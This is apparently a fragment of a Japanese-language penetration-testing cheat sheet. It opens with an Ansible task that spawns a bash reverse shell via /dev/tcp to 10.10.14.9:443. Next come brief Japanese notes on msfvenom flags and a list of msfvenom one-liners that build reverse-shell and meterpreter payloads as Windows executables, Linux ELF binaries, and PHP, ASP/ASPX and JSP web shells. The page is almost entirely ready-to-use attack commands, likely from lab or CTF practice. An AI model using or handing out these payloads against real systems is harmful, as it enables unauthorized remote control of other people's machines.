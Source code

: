 ### Ansible
```
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'
```

## ^msfvenom
- -p...使用するpayloadの指定
- -f...出力フォーマット
- -a...使用するアーキテクチャ
- -e...エンコーディングの指定(x86/shikata_ga_nai，x64/zutto_dekiru)
- -i...エンコードする回数
- --platform...プラットフォームの選択(windows，Linux)
- -o...ファイルの出力
  
### Windows
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o shell.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o shell.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443  EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

### Linux
```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.16.4 LPORT=443 -f python
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -o reverse.elf
```

### PHP
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Port Number> -f raw > reverse.php
```

### asp/aspx
```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip address> LPORT=<Port Number> -f aspx > shell.aspx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<Port Number> -f aspx > shell.aspx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<Port Number> -f asp > shell.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<Port Number> -f aspx > shell.aspx
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<Port Number> -f raw > shell.jsp
```
